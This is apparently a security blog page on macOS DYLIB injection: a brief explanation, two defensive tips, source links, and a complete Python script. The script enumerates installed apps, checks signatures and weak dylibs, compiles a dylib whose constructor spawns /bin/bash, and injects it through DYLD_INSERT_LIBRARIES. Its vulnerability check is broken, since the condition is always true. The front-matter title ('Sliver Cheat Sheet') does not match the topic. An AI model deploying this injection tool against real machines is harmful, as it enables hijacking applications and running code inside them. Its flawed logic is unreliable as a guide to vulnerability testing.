 ```yaml
---
layout: attack
title: Sliver Cheat Sheet
---
```


<img height="150" align="left" src="/images/dylib_injection.jpg" > A short intro into DYLIB injection, a technique that attackers can use to compromise MacOS applications. The presented script tries in an automated way to find vulnerable apps and exploit over dylib injection if possible. The script itself is not entirely hardened against errors and very likely will be busted by EDRs solutions based on the nature of this script. Also this is meant to be used for educational purposes only.


## What is DYLIB Injection?

DYLIB (Dynamic Linked Library) injection is a method where malicious code is loaded into a legitimate application at runtime. This allows attackers to manipulate the app's behavior, steal data, or even gain complete control of the system.

## Protecting Yourself from DYLIB Injection

While the script demonstrates how attackers might exploit vulnerabilities, it also highlights areas for defense:

* __Application Sandboxing__: Many applications on macOS run in sandboxes, limiting their access to system resources and making them less susceptible to injection attacks.
* __Code Signing__: Apple's code-signing process helps ensure application integrity. Be wary of applications that fail signature verification.


## Some sources:
* https://book.hacktricks.xyz/macos-hardening/macos-security-and-privilege-escalation/macos-proces-abuse/macos-library-injection
* https://book.hacktricks.xyz/macos-hardening/macos-security-and-privilege-escalation/macos-proces-abuse/macos-library-injection/macos-dyld-hijacking-and-dyld_insert_libraries
* https://malwareunicorn.org/workshops/macos_dylib_injection.html#0

## The code
```python
import os
import subprocess

def enumerate_installed_apps():
    applications = [f"[{idx + 1}] {app}" for idx, app in enumerate(os.listdir('/Applications')) if app.endswith('.app')]
    print("\n".join(applications))
    return [app.split("] ")[1] for app in applications]

def verify_app_integrity(app):
    """
    Checks an application for integrity by verifying its signature.
    Returns True if the application might have been modified or if an error occurs.
    """
    app_path = f"/Applications/{app}/Contents/MacOS/{app[:-4]}"
    try:
        result = subprocess.run(['codesign', '-vvv', '--deep', '--strict', app_path], capture_output=True, text=True)
        if 'valid on disk' in result.stdout and 'satisfies its Designated Requirement' in result.stdout:
            print(f"> {app} appears to be intact and not modified.")
        else:
            print(f"> WARNING: {app} may have been modified.")
            print(result.stdout)
            return True
    except Exception as e:
        print(f"> ERROR checking {app}: {e}")
        return True  

    return False

def detect_weak_dylibs(app):
    """
    Checks if an application has loaded weak dynamic libraries (dylibs).
    Returns True if weak dylibs were found.
    """
    app_path = f"/Applications/{app}/Contents/MacOS/{app[:-4]}"
    try:
        result = subprocess.run(['otool', '-l', app_path], capture_output=True, text=True)
        if 'LC_LOAD_WEAK_DYLIB' in result.stdout:
            print(f"> {app} has weak dylibs loaded.")
            return True
        else:
            print(f"> {app} does not have weak dylibs loaded.")
    except Exception as e:
        print(f"> ERROR checking weak dylibs for {app}: {e}")
        return True

    return False

def build_dylib():
    """
    Compiles a dynamic library (dylib) that can later be injected into an application.
    
    Origin/Sources:
    https://book.hacktricks.xyz/macos-hardening/macos-security-and-privilege-escalation/macos-proces-abuse/macos-library-injection
    https://book.hacktricks.xyz/macos-hardening/macos-security-and-privilege-escalation/macos-proces-abuse/macos-library-injection/macos-dyld-hijacking-and-dyld_insert_libraries
    https://malwareunicorn.org/workshops/macos_dylib_injection.html#0
    """
    c_code = """
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
__attribute__((constructor))

void myconstructor(int argc, const char **argv)
{
    syslog(LOG_ERR, "[+] dylib injected in %s\\n", argv[0]);
    printf("[+] dylib injected in %s\\n", argv[0]);
    execv("/bin/bash", 0);
}
"""
    with open("inject.c", "w") as file:
        file.write(c_code)
    subprocess.run(['gcc', '-dynamiclib', '-o', 'inject.dylib', 'inject.c'], check=True)
    print("> Dylib compiled successfully.")

def perform_dylib_injection(app):
    """
    Attempts to inject a previously compiled dynamic library into an application.
    """
    app_path = f"/Applications/{app}/Contents/MacOS/{app[:-4]}"
    try:
        os.environ['DYLD_INSERT_LIBRARIES'] = 'inject.dylib'
        subprocess.run([app_path], check=True)
    except Exception as e:
        print(f"> ERROR injecting {app}: {e}")

def main():
    applications = enumerate_installed_apps()
    app_number = int(input("Enter the number of the software you want to attempt the injection on: ")) - 1
    selected_app = applications[app_number]
    
    print(f"> Checking for vulnerabilities in {selected_app}...")
    if verify_app_integrity(selected_app) or not verify_app_integrity(selected_app):
        if detect_weak_dylibs(selected_app):
            build_dylib()
            perform_dylib_injection(selected_app)
        else:
            print(f"> {selected_app} does not have weak dylibs loaded, but attempting injection anyway.")
            build_dylib()
            perform_dylib_injection(selected_app)
    else:
        print(f"> {selected_app} is not vulnerable to dylib injection.")

if __name__ == "__main__":
    main()
```